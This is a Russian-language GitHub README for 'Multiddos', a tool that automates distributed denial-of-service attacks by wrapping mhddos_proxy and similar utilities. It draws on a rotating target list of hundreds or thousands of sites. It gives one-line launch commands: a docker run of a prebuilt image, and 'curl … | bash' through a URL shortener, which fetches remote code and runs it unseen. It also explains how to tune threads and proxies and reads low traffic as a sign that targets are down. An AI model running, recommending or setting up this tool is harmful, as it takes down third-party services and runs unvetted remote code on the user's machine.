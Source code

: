 # **Multiddos - скрипт объединяющий в себе несколько утилит для ddos**

![multiddos](https://user-images.githubusercontent.com/53382906/161972523-a1197762-a166-45f2-9b68-6e13cc940d99.gif)

### **Особености**:
* Объединяет в себе несколько утилит для ддоса, и для мониторинга (gotop, vnstat)
* Полностью автоматизирован. Автоматическое обновление программ, автоматическая настройка, автоматическая смена целей.
* Запуск одной простой командой.
* При закрытии терминала или разрыве ssh сессии программы не вылетают, а продолжают работать в фоне. В любой момент multiddos можно снова вывести на экран.
* Автоматически подбирает количество потоков (threads) для работы, в зависимости от количества доступных логических ядер.
* Имеет базу на сотни (иногда тысячи) сайтов/адресов.

### **На данный момент скрипт поддерживает:**
* [Multiddos](https://github.com/KarboDuck/multiddos), ранее известный как auto_mhddos (обвертка для mhddos_proxy) от Украинского Жнеца ([канал](https://t.me/ukrainian_reaper_ddos), [чат](https://t.me/+azRzzKp-STpkMjNi))
* ~~[db1000n ](https://github.com/Arriven/db1000n) от IT ARMY of Ukraine ([канал](https://t.me/itarmyofukraine2022), чат)~~ временно отключено
* ~~[UA Cyber SHIELD](https://github.com/opengs/uashield) ([канал](https://t.me/uashield), чат)~~ временно отключено

### **Пояснение к выбору конкретных утилит**
<details>
<summary>развернуть</summary>
 
Мы хотели собрать утилиты, которые:
* Можно полностью автоматизировать
* Имеют хорошую эффективность и поддерживаются разработчиками
* Умеют работать через прокси

Полностью данным требованиям соответствует только mhddos_proxy. DB1000N не умеет работать через прокси. UAShield прожорливая и низкоэффективная по сравнению с mhddos_proxy. Поэтому на данном этапе по умолчанию используется только mhddos_proxy.
 
</details>

---
# **Multiddos в docker. Рекомендуется.** (Win, Mac, Linux)

### **Запуск**

1. Скачать и установить [Docker](https://docs.docker.com/get-docker/)

2. Запустить multiddos в docker:
```
docker run -it --rm --log-driver none --name multidd --pull always karboduck/multidd
```
* Альтернативный запуск для слабых систем. Будет использоваться только 1 ядро на 90% (использовать если процессор забивается на 100% и система тормозит). <details> docker run --cpus 0.9 -it --rm --log-driver none --name multidd --pull always karboduck/multidd

* Если вам нужно запустить несколько копий multiddos. <details> Используйте разные имена (--name multidd1, --name multidd2 и т.д.), либо не используйте имена вообще

* Запуск docker c ключами. <details> Docker версия поддерживает те же ключи, что и bash версия. Прописывайте их точно так же в конце команды. `docker run -it --rm --log-driver none --name multidd --pull always karboduck/multidd -t 500 +v` Подробнее про ключи читайте ниже в разделе **Опции запуска**.

### **Остановка**
1. Нажать в окне несколько раз подряд `Ctrl + C`
2. В другом терминале запустить команду `docker stop multidd`
3. Перезагрузить операционную систему

### **Подключиться обратно, если скрипт работает в фоне**
```
docker attach multidd
```

---
# **Multiddos в bash** (Linux, WSL2)

### **Запуск**

```
curl -L tiny.one/multiddos | bash && tmux a
```

### **Запуск в фоне**
<details>
  <summary>развернуть</summary>
  
То же самое что и обычный запуск, но программы не будут выводиться из фона. Соответственно просто удаляем вызов Tmux в конце команды.

```
curl -L tiny.one/multiddos | bash
```
Чтобы обратно подключиться к сессии tmux (вывести программы на экран) прочитайте раздел **Управление Tmux**.
 
</details>

### **Остановка**:
1. Нажать в окне несколько раз подряд `Ctrl + C`
2. В другом терминале запустить команду `pkill tmux; pkill node; pkill shield; pkill -f start.py; pkill -f runner.py`
3. Перезагрузить операционную систему

### **Подключиться обратно, если скрипт работает в фоне**
```
tmux a
```
---
# **Управление Tmux**
<details>
  <summary>развернуть</summary>

* **Свернуть Tmux**. Программы продолжат работать в фоне, и к сессии можно будет позже снова подключиться. `Нажмите Ctrl+b` отпустите `Нажмите d`

* **Закрыть сессию Tmux**. Сначала выйдите из Tmux: `Нажмите Ctrl+b` отпустите `Нажмите d`. Выполните в терминале команду `tmux kill-session -t multiddos`

* **Переподключиться к сессии Tmux**. Если у вас всего одна сессия Tmux, то используйте: `tmux a` (tmux attach). Если у вас несколько сессий, подключайтесь по имени: `tmux attach-session -t multiddos`
</details>

# **Опции запуска**

<details>
  <summary>развернуть</summary>
  
Multiddos запускается по умолчанию с gotop и multiddos. Это стандартная конфигурация. Из этой конфигурации можно убрать gotop. Или добавить в нее утилиты: db1000n, uashield, vnstat, matrix.

Для того, чтобы убрать утилиту используется ключ со знаком "-":

`-g` убрать gotop

Для того, чтобы добавить утилиту используется ключ со знаком "+":

`+d` убрать db1000n

`+u` добавить uashield

`+v` добавить vnstat -l (мониторинг трафика)

`-p0` или `--no-proxy-finder` отключить proxy finder

`-p 2000` или `--proxy-threads 2000` задать количество потоков для proxy finder. Чем выше значение, тем быстрее происходит сканирование и поиск новых прокси, но тем и выше нагрузка на CPU и сеть. Поэтому при больших значениях может падать скорость атак.

`-t 500` или `--threads 500` задать количество потоков для mhddos_proxy. 

Пример команды (убрать gotop и включить 2000 потоков для proxy finder):

```
curl -LO tiny.one/multiddos && bash multiddos -g -p 2000 && tmux a
```

</details>

# **Решение проблем**
<details>
  <summary>развернуть</summary>

1.
Основная проблема - перебои в работе сетевого адаптера. Особенно часто проявляется при запуске скрипта на виртуальной машине. Ддос пакеты влияют не только на удаленные сервера, но и на локальное железо.

Внешние проявления могут самыми разнообразными, нелогичными и на первый взгляд не связанными с сетью. Но, если скрипт не запускается, просто перезапустите систему и попробуйте снова. Едва ли не в 80% случаев это решает проблемы.

2.
Вылетает db1000n или uashield.

Это либо опять побочка проблем с сетью, смотрите пункт выше. Либо сбой самих программ, с чем мы ничего поделать не можем. Хорошая новость заключается в том, что 95% полезной работы выполняет mhddos_proxy. Пока он не вылетает, все идет по плану. 
 
3.
Низкий трафик.
В подавляющем большинстве случаев это значит, что атакуемые сайты либо уже лежат, либо их закрыли гео-блоком (отгородили от внешнего мира). Это нормально, наши атаки все равно приносят пользу, продолжаем работать.

</details>